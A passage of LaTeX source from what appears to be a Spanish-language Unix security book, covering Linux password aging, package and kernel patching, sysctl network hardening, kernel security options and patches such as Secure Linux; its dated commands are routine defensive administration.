`L'} si la cuenta est\'a bloqueada, y {\tt `NP'} si el usuario no tiene clave 
asignada; en este \'ultimo caso es muy importante poner un {\it password} al 
usuario o bien bloquear su acceso:
\begin{quote}
\begin{verbatim}
luisa:~# passwd -S prova
prova NP 10/23/2001 0 99999 7 -1
luisa:~# passwd -l prova
Password changed.
luisa:~# passwd -S prova
prova L 10/23/2001 0 99999 7 -1
luisa:~# 
\end{verbatim}
\end{quote}
El resto de campos del listado hacen referencia propiedades de envejecimiento
de las claves: cuando se cambi\'o la contrase\~na de cada usuario por \'ultima
vez, cuales son sus periodos de validez m\'aximo y m\'{\i}nimo, el periodo de
aviso y el periodo de inactividad antes de bloquear el acceso de forma
autom\'atica; tambi\'en mediante {\tt passwd} (o equivalentemente mediante
{\tt chage}) podemos -- como {\tt root} -- modificar esta informaci\'on para 
cada uno de nuestros usuarios. Por ejemplo, si queremos que la clave del 
usuario {\tt `prova'} tenga un periodo de validez m\'aximo de un mes y 
m\'{\i}nimo de 10 d\'{\i}as, que se avise al usuario de que su clave va a 
caducar con una antelaci\'on de una semana, y que si una vez la clave ha 
caducado el usuario no entra al sistema en cinco d\'{\i}as se bloquee su cuenta
podemos conseguirlo con la siguiente orden:
\begin{quote}
\begin{verbatim}
luisa:~# passwd -S prova
prova L 10/23/2001 0 99999 7 -1
luisa:~# passwd -x 30 -n 10 -w 7 -i 5 prova
Password changed.
luisa:~# passwd -S prova
prova L 10/23/2001 10 30 7 5
luisa:~# 
\end{verbatim}
\end{quote}
Como en este caso la cuenta est\'a bloqueada, los cambios tendr\'an efecto 
cuando
esta se desbloquee (o directamente se le asigne una nueva clave) y comience a 
ser utilizada; a diferencia de otros sistemas Unix, el desbloqueo de un acceso 
en Linux guarda una especie de estado: conserva la contrase\~na que el usuario 
ten\'{\i}a antes de que su cuenta fuera bloqueada.
\section{El sistema de parcheado}
A la hora de hablar de actualizaciones en Linux debemos distinguir entre la 
actualizaci\'on del n\'ucleo del operativo y la de las diferentes aplicaciones 
del sistema. Esta \'ultima no es en ning\'un momento algo tan est\'andar como 
lo pueda ser en Unices comerciales como Solaris o AIX debido a que no hay un 
\'unico modelo de Linux en el mercado, sino que existen diferentes clones de 
este operativo, y a pesar de que todos son `Linux' en cada uno de ellos se 
trabaja de forma diferente. Por contra, si lo que se va a actualizar es el 
n\'ucleo de Linux en cualquiera de ellos se procede de la misma forma, ya que
el {\it kernel} es com\'un a todas las distribuciones. Vamos a hablar primero
brevemente de los diferentes m\'etodos de actualizaci\'on de aplicaciones en
funci\'on del Linux utilizado y despu\'es comentaremos aspectos de 
actualizaci\'on y parcheado del n\'ucleo.\\
\\En Red Hat, y en todos los Linux basados en esta distribuci\'on (Mandrake, 
Caldera\ldots) el {\it software} se suele descargar precompilado desde Internet
en un formato especial denominado {\sc rpm} ({\it Red Hat Package Manager}),
que permite al administrador de un sistema instalar y desinstalar programas,
as\'{\i} como verificar versiones del {\it software} instalado en la 
m\'aquina; podemos encontrar una extensa descripci\'on de este formato en 
\cite{kn:bai97}, aunque la idea m\'as elemental acerca del mismo es que se trata
de un sistema de gesti\'on (instalaci\'on, actualizaci\'on, borrado\ldots) de
{\it software} capaz de hacer comprobaciones de dependencia entre paquetes, 
ejecutar programas de pre y postinstalaci\'on y detectar y solventar cierto tipo
de conflictos entre diferentes paquetes o diferentes versiones del mismo.\\
\\Actualizar versiones de {\it software} mediante {\tt rpm} es una tarea 
sencilla: normalmente el administrador no tiene m\'as que ejecutar {\tt `rpm 
-U'}, orden 
que se encargar\'a de instalar la nueva versi\'on y eliminar la antigua (si 
existe); es equivalente a ejecutar primero una instalaci\'on ({\tt `rpm -i'}) 
del {\it paquete} actualizado y despu\'es un borrado ({\tt `rpm -e'}) de la
versi\'on anteriormente instalada en la m\'aquina. Lo m\'as habitual es ver en 
primer lugar
la versi\'on concreta de un paquete {\it soft} instalado en la m\'aquina, 
mediante {\tt `rpm -q'} ({\tt `rpm -qa'} nos mostrar\'a un listado de todos y
cada uno de los paquetes instalados):
\begin{quote}
\begin{verbatim}
rosita:~# rpm -q libpcap
libpcap-0.4-10
rosita:~#
\end{verbatim}
\end{quote}
Tras esto podemos conseguir una versi\'on actualizada (el paquete en formato 
{\sc rpm} del {\it software} que nos interese) e instalarla mediante las
\'ordenes vistas anteriormente:
\begin{quote}
\begin{verbatim}
rosita:~# ls -l libpcap-0.4-19.i386.rpm 
-rw-r--r--   1 root    root      56554 Feb 18 03:54 libpcap-0.4-19.i386.rpm
rosita:~# rpm -U libpcap-0.4-19.i386.rpm 
rosita:~# rpm -q libpcap
libpcap-0.4-19
rosita:~#
\end{verbatim}
\end{quote}
Por su parte, en Debian y derivados, la actualizaci\'on de {\it software} se
puede llevar a cabo mediante {\tt `dpkg'}, que permite instalar, configurar y
eliminar paquetes; no obstante, su uso -- al menos de forma 
directa -- hoy en d\'{\i}a es poco habitual debido a la existencia de otra
herramienta denominada {\sc apt} ({\it Advanced Package Tool}), 
posiblemente el mecanismo de instalaci\'on y actualizaci\'on de {\it software} 
m\'as c\'omodo de cuantos existen en Linux. La principal interfaz entre este 
sistema y el usuario es {\tt `apt-get'}, herramienta de l\'{\i}nea de
\'ordenes cuyo funcionamiento se basa especialmente en el fichero {\tt 
/etc/apt/sources.list}, que como su nombre indica es un registro de las fuentes 
desde las que se pueden obtener paquetes actualizados.\\
\\Los paquetes de {\it software} en Debian suelen tener un nombre finalizado
en {\tt `.deb'}, que realmente es un {\tt `.ar'} con algunas modificaciones; 
para obtener un listado actualizado de los paquetes disponibles en las
diferentes ubicaciones indicadas en {\tt /etc/apt/sources.list} no tenemos
m\'as que ejecutar la orden {\tt `apt-get update'} (algo recomendable cada vez
que se modifique el fichero de fuentes), que conectar\'a a cada una 
de dichas ubicaciones y descargar\'a la lista de paquetes actualizados; esta
orden no instala esos paquetes, por lo que a continuaci\'on deberemos ejecutar 
{\tt `apt-get install'} o, directamente {\tt `apt-get upgrade'} para actualizar 
las versiones del {\it software} ya instalado: 
\begin{quote}
\begin{verbatim}
rosita:~# apt-get upgrade
Reading Package Lists... Done
Building Dependency Tree... Done
0 packages upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
rosita:~# 
\end{verbatim}
\end{quote}
Tanto Red Hat como Debian proporcionan mecanismos para verificar -- hasta
cierto punto -- la integridad de cada paquete instalado; realmente, m\'as que
la integridad, podr\'{\i}amos hablar de las modificaciones sufridas por 
archivos instalados a partir de un paquete con respecto a los originales (qu\'e
ficheros han sido modificados desde la instalaci\'on), ya que no se trata de
comprobaciones de integridad que nos permitan decir si un paquete ha sido 
troyanizado o no, sino simples verificaciones de presencia de ficheros 
modificados. Como casi siempre, para comprobar realmente la autenticidad del 
{\it software} debemos recurrir a funciones resumen tipo {\sc md5}.\\
\\El Linux m\'as arcaico (pero no por ello el peor, ni mucho menos) a
la hora de actualizar {\it software} es Slackware; en esta distribuci\'on de
Linux el formato de paquete es sin duda el m\'as est\'andar de todos: el 
{\it software} se distribuye en ficheros {\tt .tgz}, que no son m\'as que
archivos {\tt .tar.gz} compatibles con cualquier Unix, con unas peque\~nas
modificaciones para poderlos instalar mediante {\tt installpkg}, un sencillo
{\it shellscript}. En cualquier caso, ni siquiera suele ser necesaria esta
utilidad para instalar ficheros {\tt .tgz}: es suficiente con desempaquetarlos
y descomprimirlos desde el directorio ra\'{\i}z de la m\'aquina.\\
\\En Slackware podemos utilizar el comando {\tt upgradepkg} para actualizar un
paquete de {\it software} determinado; esta orden no es m\'as que otro {\it 
shellscript} que instala el paquete nuevo y
elimina los ficheros de la versi\'on antigua que no existan en la nueva. Sin
embargo, entre los administradores de Slackware -- me incluyo en el grupo -- es
mucho m\'as habitual descargar el c\'odigo fuente de la aplicaci\'on a 
actualizar, compilarlo e instalarlo por encima de la versi\'on antigua (o
eliminar esta primero, de forma manual).\\
\\En cuanto al {\it kernel} de Linux y su actualizaci\'on, como antes hemos 
comentado, si lo que queremos es actualizar o parchear el
n\'ucleo del sistema operativo la forma de hacerlo ya no es tan dependiente de 
la versi\'on de Linux utilizada. Para actualizar la versi\'on del {\it kernel}
tenemos dos opciones: o descargamos el c\'odigo fuente de la nueva versi\'on,
de forma completamente independiente de la que tengamos en estos momentos, o
descargamos un parche que al ser aplicado nos modificar\'a el c\'odigo 
instalado ya en nuestro sistema para convertirlo en la nueva versi\'on; en ambos
casos debemos compilar y arrancar con la imagen generada si queremos que el 
sistema quede actualizado.\\
\\Si hemos descargado un nuevo {\it kernel} completo (generalmente un fichero
{\tt .tar.gz}) no tenemos m\'as que descomprimirlo, desempaquetarlo y 
compilarlo para generar una nueva imagen con el nuevo n\'ucleo; evidentemente
no vamos a entrar ahora en como configurar o compilar el {\it kernel} de Linux:
para eso hay excelentes documentos disponibles en la red.\\
\\M\'as interesante es la aplicaci\'on de parches al c\'odigo fuente, bien para
incrementar la versi\'on del n\'ucleo, como ya hemos dicho, o bien para aplicar
una modificaci\'on `no oficial' distribuida como parche; en este \'ultimo caso
-- cada vez menos utilizado, debido al desarrollo de los m\'odulos cargables
en tiempo de ejecuci\'on -- hemos de tener cuidado, ya que al aplicar un parche
no oficial es muy probable que si posteriormente deseamos incrementar la
versi\'on de nuestro {\it kernel} tambi\'en mediante parcheado del c\'odigo, 
este \'ultimo no funcione correctamente.\\
\\Lo m\'as habitual es que cualquier parche para el c\'odigo fuente del 
n\'ucleo, tanto oficial como `no oficial', se distribuya como un simple fichero
de texto (en muchos casos comprimido con gzip) que contiene las diferencias 
entre el c\'odigo actual y el modificado, generadas con {\tt diff}; podemos 
verificarlo simplemente echando un vistazo al fichero que acabamos de descargar:
\begin{quote}
\begin{verbatim}
luisa:/usr/src# gzip -dc patch-2.2.14.gz|head -4
diff -u --recursive --new-file v2.2.13/linux/CREDITS linux/CREDITS
--- v2.2.13/linux/CREDITS       Tue Jan  4 11:24:09 2000
+++ linux/CREDITS       Tue Jan  4 10:12:10 2000
@@ -137,12 +137,9 @@
luisa:/usr/src# 
\end{verbatim}
\end{quote}
Si este es nuestro caso, para aplicar el parche no tenemos m\'as que utilizar
la orden {\tt `patch'}:
\begin{quote}
\begin{verbatim}
luisa:/usr/src# gzip -dc patch-2.2.14.gz | /usr/bin/patch -p0
\end{verbatim}
\end{quote}
Si el proceso ha sido correcto, el c\'odigo fuente que en nuestro ejemplo antes 
correspond\'{\i}a al n\'ucleo 2.2.13 ahora corresponde al 2.2.14; como antes, 
no tenemos m\'as que recompilar ese c\'odigo y arrancar con la imagen generada
para que nuestro {\it kernel} sea el nuevo:
\begin{quote}
\begin{verbatim}
luisa:~# uname -a
Linux luisa 2.2.14 #9 Sat Dec 30 03:34:32 CET 2000 i686 unknown
luisa:~#
\end{verbatim}
\end{quote}
\section{El subsistema de red}
\label{linux_netsys}
Lamentablemente en Linux no existe una orden similar a {\tt ndd} en Solaris o a
{\tt no} en AIX, que como hemos visto o veremos m\'as adelante se utilizan para
configurar en tiempo de ejecuci\'on, y de una forma sencilla, par\'ametros del 
operativo relativos al subsistema de red. En este caso necesitamos recurrir, en
la mayor\'{\i}a de ocasiones, a escribir directamente en ficheros del directorio
{\tt /proc/}, un sistema de archivos `virtual' que en Linux y otros entornos 
Unix act\'ua como interfaz ente el espacio de usuario y el n\'ucleo.\\
\\Con relaci\'on a la tabla {\sc arp} y sus {\it timeouts} (como ya dijimos al
hablar de Solaris, importantes en nuestra seguridad para prevenir cierto tipo de
ataques), su funcionamiento en Linux es quiz\'as algo engorroso: en los
directorios {\tt /proc/sys/net/ipv4/neigh/$\ast$/} tenemos ciertos ficheros que
indican par\'ametros de configuraci\'on de {\sc arp}; uno de ellos, {\tt
gc$\_$stale$\_$time}, define el tiempo (60 segundos por defecto) que una entrada
de la tabla {\sc arp} se considera `viva'. Cuando este {\it timeout} ha vencido
para cierta entrada, entra en juego el par\'ametro {\tt gc$\_$interval}, que
marca la frecuencia de actuaci\'on del recolector de basura ({\it garbage 
collector}) en el sistema; este, que se ejecuta cada 30 segundos, es realmente 
el encargado de eliminar las entradas `caducadas' de nuestra tabla.\\
\\Respecto al protocolo {\sc icmp}, una buena idea -- como en cualquier Unix --
es ignorar las peticiones {\sc icmp$\_$echo} dirigidas a direcciones de {\it
broadcast}; esto lo conseguimos escribiendo un valor diferente de 0 en el 
archivo {\tt /proc/sys/net/ipv4/icmp$\_$echo$\_$ignore$\_$broadcasts}. Si no nos
conformamos con esto, y queremos ignorar todas las peticiones {\sc 
icmp$\_$echo}, no tenemos m\'as que hacer lo mismo en el archivo {\tt 
/proc/sys/net/ipv4/icmp$\_$echo$\_$ignore$\_$all}.\\
\\La gesti\'on de tramas {\sc icmp$\_$redirect} tambi\'en puede presentar 
ciertos riesgos para nuestra seguridad. Si en {\tt 
/proc/sys/net/ipv4/conf/*/accept$\_$redirects} indicamos un valor diferente de
0 estamos dici\'endole al n\'ucleo de Linux que haga caso de este tipo de 
paquetes que en principio nos puede enviar un enrutador; su valor por defecto
(0, desactivado) es el correcto. An\'alogamente, en {\tt 
/proc/sys/net/ipv4/conf/*/send$\_$redirects} permitimos la emisi\'on de estas
tramas desde nuestra m\'aquina escribiendo un valor diferente de 0; como s\'olo
un {\it router} deber\'{\i}a enviar estos paquetes, la opci\'on m\'as segura 
es especificar un 0 para este par\'ametro (su valor por defecto es 1). Una
opci\'on intermedia entre bloquear todas las tramas {\sc icmp$\_$redirect} y
permitirlas puede ser el escribir en el archivo {\tt secure$\_$redirects} un
valor diferente de 0, logrando que se acepten este tipo de paquetes pero {\bf
s\'olo} desde la lista de {\it gateways} v\'alidos definida en {\tt 
/etc/gateways}.\\
\\Pasando ya a hablar del protocolo {\sc ip}, uno de los par\'ametros que m\'as 
nos va a interesar es la habilitaci\'on o
deshabilitaci\'on del {\it IP Forwarding} en el n\'ucleo de Linux; como hemos
dicho antes, el sistema de filtrado de paquetes s\'olo funciona cuando esta
opci\'on est\'a habilitada, lo que se consigue con la orden
\begin{quote}
\begin{verbatim}
luisa:~# echo 1 > /proc/sys/net/ipv4/ip_forward
luisa:~# 
\end{verbatim}
\end{quote}
Sin embargo, si no utilizamos las facilidades de {\it firewalling} del n\'ucleo
de Linux esta opci\'on ha de estar desabilitada (introducir\'{\i}amos un `0' en
lugar de un `1' en el fichero anterior), ya que de lo contrario corremos el
peligro de que nuestra m\'aquina se convierta en un {\it router}.\\
\\Antes hemos hablado de las {\it `SYN Cookies'}, y hemos comentado que aunque
el soporte para esta caracter\'{\i}stica se introduce al compilar el n\'ucleo,
realmente el mecanismo se ha de activar desde espacio de usuario, por ejemplo
con una orden como la siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# echo 1 >/proc/sys/net/ipv4/tcp_syncookies
luisa:~# 
\end{verbatim}
\end{quote}
Tambi\'en es muy recomendable que el
subsistema de red del {\it kernel} descarte las tramas con {\it Source Routing}
o encaminamiento en origen activado. Este tipo de paquetes contienen el camino
que han de seguir hasta su destino, de forma que los {\it routers} por los que
pasa no han de examinar su contenido sino simplemente reenviarlo, hecho que
puede causar la llegada de datos que constituyan una amenaza a nuestras
pol\'{\i}ticas de seguridad. En los n\'ucleos 2.0 esto se consegu\'{\i}a
activando la opci\'on {\sc config\_ip\_nosr} a la hora de compilar el {\it 
kernel}, mientras que en los 2.2 la forma
m\'as sencilla de ignorar estos paquetes es introduciendo un `0' en los
diferentes ficheros {\tt accept\_source\_route} del directorio {\tt
/proc/sys/net/ipv4/}; por ejemplo la siguiente orden descarta las tramas con
encaminamiento en origen que llegan al dispositivo de red {\tt eth0}:
\begin{quote}
\begin{verbatim}
luisa:~# echo 0 >/proc/sys/net/ipv4/conf/eth0/accept_source_route
luisa:~# 
\end{verbatim}
\end{quote}
Hemos de recordar que las modificaciones que hacemos sobre el interfaz {\tt
sysctl} son din\'amicas: se pueden efectuar con el sistema funcionando, sin
necesidad de reiniciarlo, pero se pierden cuando la m\'aquina se apaga para
establecerse a unos valores por defecto al arrancar de nuevo el sistema
operativo; seguramente nos interesar\'a mantener los cambios realizados, por lo
que en alguno de los ficheros de inicializaci\'on de la m\'aquina hemos de
incluir las \'ordenes que acabamos de explicar, obviamente despu\'es de haber
montado el sistema de ficheros {\tt /proc/}.
\section{El n\'ucleo de Linux}
\label{linkernel}
\subsection{Opciones de compilaci\'on}
A la hora de recompilar un nuevo n\'ucleo de Linux hemos de tener en cuenta
algunas opciones dentro del grupo {\tt `Networking Options'} que pueden afectar
a la seguridad de nuestra m\'aquina (algunos de estos aspectos, para n\'ucleos
2.0, pueden encontrarse en \cite{kn:wre98}). Sin embargo, antes de entrar en
detalles con opciones concretas, es {\bf muy} conveniente que introduzcamos
soporte para sistemas de ficheros {\tt proc} en {\tt `Filesystems'} ({\sc 
config\_proc\_fs}) y activemos el interfaz {\tt sysctl} en {\tt `General
Setup'} ({\sc config\_sysctl}); con estos pasos habilitamos la capacidad de 
Linux para modificar ciertos par\'ametros del n\'ucleo (en {\tt /proc/sys/}) 
sin necesidad de reiniciar el sistema o recompilar el {\it kernel}.\\
\\Pasando ya a comentar algunas opciones que nos ofrece Linux, es bastante 
interesante para la seguridad configurar nuestro sistema como un cortafuegos
a la hora de compilar el n\'ucleo ({\sc config\_ip\_firewall}). Linux ofrece
en su {\it kernel} facilidades para definir un {\it firewall} de paquetes en
el sistema, que adem\'as permitir\'a el {\it IP-Masquerading}. Para que el
subsistema de filtrado funcione es necesario que el {\it IP-Forwarding} est\'e
activado de la forma que m\'as tarde veremos.\\
\\Otra opci\'on que nos puede ayudar a incrementar la seguridad de nuestro
equipo es la defragmentaci\'on de paquetes ({\sc config\_ip\_always\_defrag})
que llegan a trav\'es de la red. Cuando un equipo situado entre el origen y el 
destino de los datos 
decide que los paquetes a enviar son demasiado grandes, los divide en fragmentos
de longitud menor; sin embargo, los n\'umeros de puerto s\'olamente viajan
en el primer fragmento, lo que implica que un atacante puede insertar 
informaci\'on en el resto de tramas que en teor\'{\i}a no debe viajar en ellas.
Activando esta opci\'on, en nuestra m\'aquina estos fragmentos se reagrupar\'an
de nuevo incluso si van a ser reenviados a otro {\it host}.\\
\\Siguiendo con las diferentes opciones del subsistema de red, podemos habilitar
el soporte para {\it `SYN Cookies'} ({\sc config\_syn\_cookies}) en el n\'ucleo 
que estamos configurando.
Una red TCP/IP habitual no puede soportar un ataque de negaci\'on de servicio
conocido como {\it `SYN Flooding'}, consistente b\'asicamente en enviar una
gran cantidad de tramas con el bit SYN activado para as\'{\i} saturar los
recursos de una m\'aquina determinada hasta que los usuarios no pueden ni
siquiera conectar a ella. Las {\it `SYN Cookies'} proporcionan
cierta protecci\'on contra este tipo de ataques, ya que la pila TCP/IP utiliza
un protocolo criptogr\'afico para permitir que un usuario leg\'{\i}timo pueda
seguir accediendo al sistema incluso si este est\'a siendo atacado. Aunque
configuremos y ejecutemos un n\'ucleo con esta opci\'on soportada, hemos de
activar las {\it `SYN Cookies'} cada vez que el sistema arranca (como veremos
luego), ya que por defecto est\'an deshabilitadas.\\
\\En ciertas situaciones es interesante analizar en espacio de usuario -- es
decir, sin sobrecargar al n\'ucleo m\'as de lo estrictamente necesario -- un
paquete o parte de \'el (t\'{\i}picamente, los 128 primeros bytes) que llega a 
trav\'es de la red hasta nuestra m\'aquina; de esta forma, un analizador simple
puede tomar ciertas decisiones en funci\'on del contenido del paquete recibido,
como enviar un correo al administrador en caso de sospecha o grabar un mensaje
mediante {\tt syslog}. Justamente esto es lo que conseguimos si habilitamos
la opci\'on {\it Firewall Packet Netlink Device} ({\sc 
config\_ip\_firewall\_netlink}).\\
\\Hasta ahora hemos hablado de la posibilidad que tiene Linux para modificar
par\'ametros del n\'ucleo sin necesidad de recompilarlo o de reiniciar el
equipo, mediante el interfaz {\tt sysctl}; esto implica por ejemplo que podemos
modificar el comportamiento del subsistema de red simplemente modificando 
determinados ficheros de {\tt /proc/sys/} (recordemos que el sistema de
ficheros {\tt /proc/} de algunos Unix es una interfaz entre estructuras de
datos del n\'ucleo y el espacio de usuario). Veremos en el punto 
\ref{linux_netsys} algunos de estos par\'ametros configurables que tienen 
mucho que ver con la seguridad Linux, en especial con el subsistema de red.
\subsection{Dispositivos}
Linux (no as\'{\i} otros Unices) proporciona dos dispositivos virtuales 
denominados {\tt /dev/random} y {\tt /dev/urandom} que pueden utilizarse para
generar n\'umeros pseudoaleatorios, necesarios para aplicaciones 
criptogr\'aficas. El primero de estos ficheros, {\tt /dev/random}, utiliza lo
que su autor denomina {\it `ruido ambiental'} (por ejemplo, temporizadores de
IRQs, accesos a disco o tiempos entre pulsaciones de teclas) para crear 
una fuente de entrop\'{\i}a aceptable y -- muy importante -- que apenas 
introduce sobrecarga en el sistema. El segundo archivo, {\tt /dev/urandom},
crea un resumen de la entrop\'{\i}a de {\tt /dev/random} utilizando la 
funci\'on {\it hash} SHA ({\it Secure Hash Algorithm}), dise\~nada por el 
NIST y la NSA para su {\it Digital Signature Standard} (\cite{kn:nist186}). Por
tanto, tenemos una fuente de entrop\'{\i}a aceptable, {\tt /dev/urandom}, y
otra incluso mejor, pero de capacidad limitada, {\tt /dev/random}. Para detalles
concretos sobre su funcionamiento se puede consultar el fichero que las 
implementa dentro del n\'ucleo de Linux, {\tt drivers/char/random.c}.\\
\\Como en el propio c\'odigo se explica, cuando un sistema operativo arranca
ejecuta una serie de acciones que pueden ser predecidas con mucha facilidad
por un potencial atacante (especialmente si en el arranque no interactua 
ninguna persona, como es el caso habitual en Unix). Para mantener el nivel de
entrop\'{\i}a en el sistema se puede almacenar el desorden que exist\'{\i}a
en la parada de la m\'aquina para restaurarlo en el arranque; esto se consigue
modificando los {\it scripts} de inicializaci\'on del sistema. En el fichero
apropiado que se ejecute al arrancar (por ejemplo, {\tt /etc/rc.d/rc.M}) 
debemos a\~nadir las siguientes l\'{\i}neas:
\tt
\begin{quote}
\begin{verbatim}
echo "Initializing random number generator..."
random_seed=/var/run/random-seed
# Carry a random seed from start-up to start-up
# Load and then save 512 bytes, which is the size of the entropy pool
if [ -f $random_seed ]; then
      cat $random_seed >/dev/urandom
fi
dd if=/dev/urandom of=$random_seed count=1
chmod 600 $random_seed
\end{verbatim}
\end{quote}
\rm
Mientras que en un fichero que se ejecute al parar el sistema a\~nadiremos lo
siguiente:
\tt
\begin{quote}
\begin{verbatim}
# Carry a random seed from shut-down to start-up
# Save 512 bytes, which is the size of the entropy pool
echo "Saving random seed..."
random_seed=/var/run/random-seed
dd if=/dev/urandom of=$random_seed count=1
chmod 600 $random_seed
\end{verbatim}
\end{quote}
\rm
Con estas peque\~nas modificaciones de los archivos de arranque y parada del
sistema conseguimos mantener un nivel de entrop\'{\i}a aceptable durante todo
el tiempo que el sistema permanezca encendido.
Si de todas formas no consideramos suficiente la entrop\'{\i}a proporcionada 
por estos dispositivos de Linux, podemos conseguir otra excelente fuente de
desorden en el mismo sistema operativo a partir de una simple tarjeta de sonido y unas modificaciones en el n\'ucleo (\cite{kn:phrack54}), o utilizar alguno de
los generadores -- algo m\'as complejos -- citados en \cite{kn:sch94}.
\subsection{Algunas mejoras de la seguridad}
En esta secci\'on vamos a comentar algunos aspectos de modificaciones del 
n\'ucleo que se distribuyen libremente en forma de parches, y que contribuyen
a aumentar la seguridad de un sistema Linux; para obtener referencias 
actualizadas de estos c\'odigos -- y otros no comentados aqu\'{\i} -- es 
re\-co\-men\-da\-ble consultar \cite{kn:sei99}; para informaci\'on de 
estructuras de datos, ficheros o l\'{\i}mites del n\'ucleo de Linux se puede
consultar \cite{kn:bec96} o \cite{kn:car97}.
\subsubsection{L\'{\i}mites del n\'ucleo}
En {\tt include/asm/resource.h} tenemos la inicializaci\'on de algunas 
estructuras de datos del n\'ucleo relacionadas con l\'{\i}mites a la cantidad de
recursos consumida por un determinado proceso; por ejemplo, el m\'aximo n\'umero
de procesos por usuario ({\sc rlimit$\_$nproc}) se inicializa a {\sc \\
max$\_$tasks$\_$per$\_$user}, valor que en {\tt include/linux/tasks.h} podemos
comprobar que se corresponde con la mitad de {\sc nr$\_$tasks} (n\'umero 
m\'aximo de procesos en el sistema); en arquitecturas {\tt i86} el valor del
l\'{\i}mite de procesos por usuario se fija a 256. 
De la misma forma, el n\'umero m\'aximo de ficheros abiertos por un proceso
({\sc rlimit$\_$nofile}) se inicializa al valor {\sc nr$\_$open}, que en
el archivo {\tt include/asm/limits.h} se define como 1024.\\
\\Estos l\'{\i}mites se pueden consultar desde espacio de usuario con la llamada
{\tt getrlimit()}; esta funci\'on utiliza una estructura de datos {\tt rlimit},
definida en {\tt include/linux/resource.h}, que contiene dos datos enteros para
representar lo que se conoce como l\'{\i}mite {\it soft} o blando y l\'{\i}mite
{\it hard} o duro. El l\'{\i}mite blando de un recurso puede ser modificado
por cualquier proceso sin privilegios que llame a {\tt setrlimit()}, ya sea
para aumentar o para disminuir su valor; por el contrario, el l\'{\i}mite {\it
hard} define un valor m\'aximo para la utilizaci\'on de un recurso, y s\'olo
puede ser sobrepasado por procesos que se ejecuten con privilegios de
administrador.\\
\\En el fichero {\tt include/linux/nfs.h} podemos definir el puerto m\'aximo
que los clientes {\sc nfs} pueden utilizar ({\sc nfs$\_$port}); si le asignamos
un valor inferior a 1024 (puertos privilegiados), s\'olo el administrador de 
otro sistema Unix podr\'a utilizar nuestros servicios {\sc nfs}, de forma 
similar a la variable {\tt nfs$\_$portmon} de algunos Unices.\\
\\Para cambiar los l\'{\i}mites de los par\'ametros vistos aqu\'{\i} la
soluci\'on m\'as r\'apida pasa por modificar los ficheros de cabecera del {\it
kernel}, recompilarlo y arrancar la m\'aquina con el nuevo n\'ucleo; sin 
embargo, a continuaci\'on vamos a hablar brevemente de {\it Fork Bomb Defuser},
un m\'odulo que permite al administrador modificar algunos de estos par\'ametros
sin reiniciar el sistema. M\'as adelante hablaremos tambi\'en de los 
l\'{\i}mites a recursos ofrecidos por {\sc pam} ({\it Pluggable Authentication
Modules}), un sistema de autenticaci\'on incorporado en la actualidad a la 
mayor\'{\i}a de Linux, as\'{\i} como en otros Unices. 
\subsubsection{Fork Bomb Defuser}
El {\it kernel} de Linux no permite por defecto limitar el n\'umero m\'aximo de 
usuarios y el n\'umero m\'aximo de procesos por usuario que se pueden ejecutar
en el sistema sin tener que modificar el c\'odigo del n\'ucleo; si no queremos 
modificarlo, casi no hay m\'as remedio que utilizar un poco de programaci\'on 
(unos simples {\it shellscripts} suelen ser suficientes) y las herramientas de
planificaci\'on de tareas para evitar que un usuario lance demasiados procesos
o que conecte cuando el sistema ya ha sobrepasado un cierto umbral de usuarios
conectados a \'el.\\
\\Mediante el m\'odulo {\it Fork Bomb Defuser} se permite al administrador 
controlar todos estos pa\-r\'a\-me\-tros del sistema operativo, incrementando 
de forma flexible la seguridad de la m\'aquina. El c\'odigo est\'a disponible 
en {\tt http://rexgrep.tripod.com/rexfbdmain.htm}.
\subsubsection{Secure Linux}
Por {\it Secure Linux} se conoce a una colecci\'on de parches para el n\'ucleo 
de Linux programados por {\it Solar Designer}, uno de los {\it hackers} m\'as
reconocidos a nivel mundial en la actualidad (entendiendo {\it hacker} en el
buen -- y \'unico -- sentido de la palabra). Este {\it software}, disponible
libremente desde {\tt http://www.false.com/security/linux/}\footnote{Esta
URL ya no existe, ahora los trabajos de Solar Designer se encuentran en
{\tt http://www.openwall.com/}; gracias, David :).}, incrementa
la seguridad que el n\'ucleo proporciona por defecto, ofreciendo cuatro 
importantes diferencias con respecto a un {\it kernel} normal:
\begin{itemize}
\item \'Area de pila no ejecutable\\
En un sistema con el \'area de la pila no ejecutable los ataques de {\it buffer 
overflow} son m\'as dif\'{\i}ciles de realizar que en los sistemas habituales,
ya que muchos de estos ataques se basan en sobreescribir la direcci\'on de 
retorno de una funci\'on en la pila para que apunte a c\'odigo malicioso, 
tambi\'en depositado en la pila. Aunque {\it Secure Linux} no es una soluci\'on
completa, s\'{\i} que a\~nade un nivel extra de seguridad en este sentido,
haciendo que un atacante que pretenda utilizar un {\it buffer overflow} contra
nuestro sistema tenga que utilizar c\'odigo m\'as complicado para hacerlo.
\item Enlaces restringidos en {\tt /tmp}\\
Con esta caracter\'{\i}stica, {\it Secure Linux} intenta que los usuarios sin
privilegios puedan crear enlaces en {\tt /tmp/} sobre ficheros que no les
pertenecen, eliminando as\'{\i} ciertos problemas de seguridad que afectan a
algunos sistemas Linux, relacionados principalmente con condiciones de carrera 
en el acceso a ficheros.
\item Tuber\'{\i}as restringidas en {\tt /tmp}\\
Esta opci\'on no permite a los usuarios escribir en tuber\'{\i}as ({\it fifos})
que no le pertenezcan a \'el o al {\it root} en directorios con el bit de
permanencia activo, como {\tt /tmp}. De esta forma se evitan ciertos ataques de 
{\it Data Spoofing}.
\item {\tt /proc} restringido\\
Esta es quiz\'as la caracter\'{\i}stica m\'as \'util de este parche, aparte de
la m\'as visible para el usuario normal. Permite que los usuarios no tengan un
acceso completo al directorio {\tt /proc/} (que recordemos permite un acceso
a estructuras de datos del n\'ucleo, como la tabla de procesos, desde el 
espacio de usuario) a no ser que se encuentren en un determinado grupo con el
nivel de privilegio suficiente. De esta forma se consigue un aumento 
espectacular en la privacidad del sistema, ya que por ejemplo los usuarios 
s\'olo podr\'an ver sus procesos al ejecutar un {\tt ps aux}, y tampoco 
tendr\'an acceso al estado de las conexiones de red v\'{\i}a {\tt netstat}; 
as\'{\i}, \'ordenes como {\tt ps} o {\tt top} s\'olo muestran informaci\'on 
relativa a los procesos de qui\'en las ejecuta, a no ser que esta persona sea 
el administrador o un usuario perteneciente al grupo 0.
\end{itemize}
\subsubsection{Auditd}
El demonio {\tt auditd} permite al administrador de un sistema Linux recibir
la informaci\'on de auditor\'{\i}a de seguridad que el n\'ucleo genera, a 
trav\'es del fichero {\tt /proc/audit}, filtrarla y almacenarla en ficheros.
